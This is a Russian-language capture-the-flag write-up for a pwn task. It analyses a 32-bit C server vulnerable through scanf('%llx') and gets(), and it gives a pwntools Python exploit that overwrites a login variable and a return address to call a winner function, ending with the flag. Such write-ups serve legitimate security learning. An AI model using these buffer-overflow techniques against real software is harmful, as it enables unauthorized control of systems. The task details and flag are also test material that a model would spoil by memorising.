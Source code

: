 # buf buf buf

***Описание***: Засплойти его, братишка, хо-хо, засплойти!

Подключение: `nc localhost:10664`

---
### Решение - Этап 1. Анализ уязвимостей

Таск включает уязвимый сервер на языке C, скомпилированный с опциями `-m32 -fno-stack-protector -no-pie -g`, что делает его уязвимым к атакам переполнения буфера и неправильной обработки входных данных. Программа предлагает несколько функций, включая сохранение данных, печать данных, выход и логин. Уязвимости в `scanf("%llx", &choice)` и `gets(buff)` позволяют манипулировать памятью и потоком исполнения программы.

Уязвимость в `scanf` использует формат `%llx`, что позволяет ввести 64-битные данные в 32-битную переменную `choice`, потенциально переписывая соседние переменные в стеке. Это дает возможность изменить переменную `user_login`, что необходимо для доступа к функции сохранения данных.

Уязвимость в `gets` не ограничивает количество вводимых данных, позволяя переписать содержимое стека за пределами выделенного буфера, что может привести к перезаписи адреса возврата и изменению потока исполнения программы.

### Решение - Этап 2. Эксплуатация уязвимостей

Сначала используем уязвимость в `scanf`, чтобы установить `user_login` на значение 67 
(`0x43`). Это позволяет выполнить команду сохранения данных, предоставляя доступ к `gets`.

Затем отправляем данные через `gets`, которые переполняют буфер `buff` и переписывают адрес возврата на адрес функции `winner`, вызывая её выполнение и получение флага.

Инструменты:
- Использование `netcat` для взаимодействия с сервером.
- Скрипт на Python для автоматизации отправки специально сформированных данных.

### Решение - Этап 3. Создание эксплойта

Подготовка данных для `scanf` и `gets`.
Тестирование локально и в среде, аналогичной условиям соревнования.

Сам эксплойт (возможны неточности в адресации): 

```python
from pwn import *

# Настройка параметров подключения
host = 'localhost'
port = 10664

# Создаем соединение
conn = remote(host, port)

# Подключаемся и ждем приглашения ввести команду
prompt = conn.recvuntil(b'command: ')

# Отправляем модифицированное значение для 'choice', чтобы установить 'user_login' в 67
conn.sendline(b'0000004300000001')  # Hex значение для изменения user_login на 67 и choice на 1

# Ожидаем следующее приглашение к вводу данных
save_data_prompt = conn.recvuntil(b'Hello. Please write save \n data: ')

# Подготавливаем payload для переполнения буфера и вызова функции winner
payload = b'A' * 256 + b'A' *12   + p32(0x80491c6)	# Может изменяться

# Отправляем payload
conn.sendline(payload)

# Получаем ответ сервера
response = conn.recvall()
print("Ответ сервера: ", response.decode())

# Закрываем соединение
conn.close()
```

После успешной эксплуатации всех уязвимостей сервер выводит флаг. Этот флаг подтверждает успешное выполнение эксплойта и правильное использование найденных уязвимостей для манипуляции поведением программы.

---

***Флаг***: `EclipseCTF{V3ry_go0deST_7ask1_1n_PW#$}`
